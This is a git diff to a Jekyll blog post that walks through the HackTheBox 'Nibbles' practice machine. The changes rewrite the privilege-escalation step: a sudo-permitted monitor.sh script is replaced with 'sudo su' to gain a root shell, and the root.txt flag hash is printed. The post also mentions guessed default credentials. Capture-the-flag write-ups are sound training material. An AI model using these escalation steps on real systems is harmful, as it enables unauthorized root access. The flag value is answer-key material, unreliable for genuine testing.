

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-09-30-Hackthebox-Nibbles-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 6167 px. Shown: the top 1373 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 7355 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add nibbles-walkthrough

```diff
--- a/_posts/2019-09-30-Hackthebox-Nibbles-Walkthrough.md
+++ b/_posts/2019-09-30-Hackthebox-Nibbles-Walkthrough.md
@@ -45,7 +45,7 @@ Gobuster HTTP:
 ### 2. Getting User
 
 We have only one port interesting which is 80 (HTTP) and sounds there is nothing here.
-![placeholder](https://inar1.github.io/public/images/2019-09-30/nibbles-badge.png)
+![placeholder](https://inar1.github.io/public/images/2019-09-29/2019-09-29-09-52-04.png)
 
 By running curl, we can find an interesting comment on the webpage.
 {% highlight shell %}
@@ -79,7 +79,7 @@ Content-Type: text/html
 {% endhighlight %}
 
 It said there is nothing interesting there. However, it is an interesting website.
-![placeholder](https://inar1.github.io/public/images/2019-09-30/nibbles-badge.png)
+![placeholder](https://inar1.github.io/public/images/2019-09-29/2019-09-29-09-57-44png)
 
 try to gobuster again.
 In the "README", we can see that current version of this "Nibbleblog" is "v4.0.3".
@@ -131,7 +131,7 @@ Shellcodes: No Result
 
 Sounds there is a RCE with metasploit.<br>
 However, we need a guessing to figure out what is the credential.<br>
-This time, the username is same as default and password was the server name.
+This time, the username is same as default and password is the server name.
 {% highlight shell %}
 admin:nibbles
 {% endhighlight %}
@@ -221,16 +221,34 @@ User nibbler may run the following commands on Nibbles:
     (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
 {% endhighlight %}
 
-Then, create the file "/home/nibbler/personal/stuff/monitor.sh" with content spawning shell.
+Then, create the file "/home/nibbler/personal/stuff/monitor.sh" with content to spawn root shell.
 {% highlight shell %}
-nibbler@Nibbles:/home/nibbler$ echo '#! /bin/sh' > /home/nibbler/personal/stuff/monitor.sh
-<er$ echo '#! /bin/sh' > /home/nibbler/personal/stuff/monitor.sh
+nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff/
+mkdir -p /home/nibbler/personal/stuff/
+{% endhighlight %}
+{% highlight shell %}
+nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "sudo su" > monitor.sh
+echo "sudo su" > monitor.sh
 
-nibbler@Nibbles:/home/nibbler$ echo 'sh -c /bin/sh' >> /home/nibbler/personal/stuff/monitor.sh
-<er$ echo 'sh -c /bin/sh' >> /home/nibbler/personal/stuff/monitor.sh
+nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
+chmod +x monitor.sh
+{% endhighlight %}
 
-nibbler@Nibbles:/home/nibbler$ cat /home/nibbler/personal/stuff/monitor.sh
-cat /home/nibbler/personal/stuff/monitor.sh
-#! /bin/sh
-sh -c /bin/sh
+Finally, execute the "monitor.sh". It takes time a bit but we can ahieve a root shell.
+{% highlight shell %}
+nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
+sudo ./monitor.sh
+
+sudo: unable to resolve host Nibbles: Connection timed out
+sudo: unable to resolve host Nibbles: Connection timed out
+root@Nibbles:/home/nibbler/personal/stuff# id
+id
+uid=0(root) gid=0(root) groups=0(root)
 {% endhighlight %}
+
+root.txt is in the directory "/root".
+{% highlight shell %}
+root@Nibbles:~# cat root.txt
+cat root.txt
+b6d745c0dfb6457c55591efc898ef88c
+{% endhighlight %}
```
Also changed, not shown: other parts of _posts/2019-09-30-Hackthebox-Nibbles-Walkthrough.md (+3 -3 lines), public/images/2019-09-29/2019-09-29-09-52-04.png (added), public/images/2019-09-29/2019-09-29-09-57-44.png (added), public/images/2019-09-29/nibble-badge.png (added).
